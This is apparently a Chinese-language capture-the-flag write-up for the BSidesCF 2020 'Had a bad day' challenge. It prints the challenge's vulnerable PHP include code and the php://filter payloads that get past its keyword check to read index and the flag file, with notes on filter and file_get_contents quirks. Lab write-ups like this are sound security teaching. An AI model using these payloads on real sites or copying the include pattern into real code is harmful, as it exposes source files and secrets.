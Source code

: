# \[BSidesCF 2020]Had a bad day

## \[BSidesCF 2020]Had a bad day

## 考点

* 文件包含配合伪协议读取文件
* php://filter伪协议特性
* file\_get\_contents特性

## wp

![](<../../.gitbook/assets/image (4) (1).png>)

两个按钮，点一下，页面跳转到index.php?category=woofers

尝试php伪协议文件包含，`index.php?category=php://filter/read=convert.base64-encode/resource=index.php`，得到报错无法包含<mark style="color:red;">index.php.php</mark>

![](<../../.gitbook/assets/image (9) (1) (1).png>)

改一下payload，`index.php?category=php://filter/read=convert.base64-encode/resource=index`

```php
<?php
$file = $_GET['category'];
if(isset($file))
{
if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
            include ($file . '.php');
}else{
echo "Sorry, we currently only support woofers and meowers.";
}
}
?>
```

要包含的文件名中必须含有woffers或meowers或index

这里就用php://filter伪协议的特性，可以在协议上套一层协议，并且遇到识别不了的会自动过滤

`index.php?category=php://filter/convert.base64-encode/write=woofers/resource=flag`

`index.php?category=php://filter/convert.base64-encode/woofers/resource=flag`

## 小结

1. php://filter伪协议遇到识别不了的协议或过滤器会自动过滤，比如`php://filter/convert.base64-encode/write=woofers/resource=flag`会自动过滤`write=woofers`
2. file\_get\_contents在遇到无法识别的协议时，会把它当做目录处理

```php
$a = file_get_contents("a/://github/../../../2.txt");
echo $a;
$a = file_get_contents("http(://github/../../2.txt");
echo $a;
// 123
```

目录结构如下

* index.php
* 2.txt
